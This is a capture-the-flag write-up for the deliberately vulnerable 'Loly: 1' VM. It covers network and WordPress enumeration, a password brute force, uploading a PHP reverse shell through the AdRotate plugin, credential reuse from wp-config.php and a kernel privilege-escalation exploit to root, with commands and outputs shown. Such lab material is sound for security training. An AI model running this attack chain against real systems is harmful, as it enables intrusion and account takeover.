 # Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)


now we have valid credentials, `loly:fernando`, we can login to wodpress site, but when you want to go to `wp-admin.php` it redirects you to `loly.lc`

so add server ip to `/etc/hosts` and login to wordpress.

### 3.Gaining Shell

Since we do not have access to edit theme pages or upload plugin to wordpress, we used already installed plugins to find any vulnerability

one plugin `AdRotate` is installed on the wordpress and it has vulnerability which you can find online like [here](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

and it says we can upload a php rev shell into banner, so make a revshell.php file and zip it and upload it to wordpress from here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/35ac68ee-692d-4193-902d-c4fc44646215)

and in the setting you can find where this banner goes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2e58fb7a-da58-4485-bfb7-ebda9db0b606)

so navigate to the address and you will get the shell

```bash
┌root@kali: nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.135] 45688
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 04:40:06 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Check `wp-config.php` file to find the database password :

```bash
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

when i connect to mysql there is no new user in `wp_users` table, but the password `lolyisabeautifulgirl` can be used to change user to loly :

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password: 
loly@ubuntu:/var/www/html/wordpress$ cd /home
```

then i enumerated afew things that led to nothing, but a kernel exploit can be used :

```bash
loly@ubuntu: uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

there is a exploit for this kernel [here](https://www.exploit-db.com/exploits/45010), upload it, compile it and you will get the root


```bash
loly@ubuntu:/tmp$ ./a.out 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880034de9a00
[*] Leaking sock struct from ffff880078815280
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880076d75740
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880076d75740
[*] credentials patched, launching shell...

# cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```

this is how you can get root on this machine :)

